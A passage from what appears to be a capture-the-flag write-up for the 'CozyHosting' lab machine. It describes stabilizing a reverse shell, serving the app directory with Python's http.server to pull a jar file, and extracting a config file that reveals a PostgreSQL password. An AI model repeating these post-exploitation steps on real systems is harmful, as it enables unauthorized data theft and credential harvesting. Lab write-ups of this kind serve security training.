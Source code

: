 ## Stealing jar file

Once we have our shell, let's stabilize it using this [method](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal):

<img src="/assets/img/CozyHostingWriteup/cozy-7.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Okay so we see that there is a `cloudhosting-0.0.1.jar` file, let's steal that using our favorite python3 module `http.server` :

```bash
app@cozyhosting:/app$ python3 -m http.server 6868 &
[1] 50085
app@cozyhosting:/app$ Serving HTTP on 0.0.0.0 port 6868 (http://0.0.0.0:6868/) ...
```

let's visit the new webserver we've created and steal that jar file :

<img src="/assets/img/CozyHostingWriteup/cozy-8.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Extract the archive and check what's inside. We find the file `cloudhosting-0.0.1/BOOT-INF/classes/application.properties` and it looks like this :

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

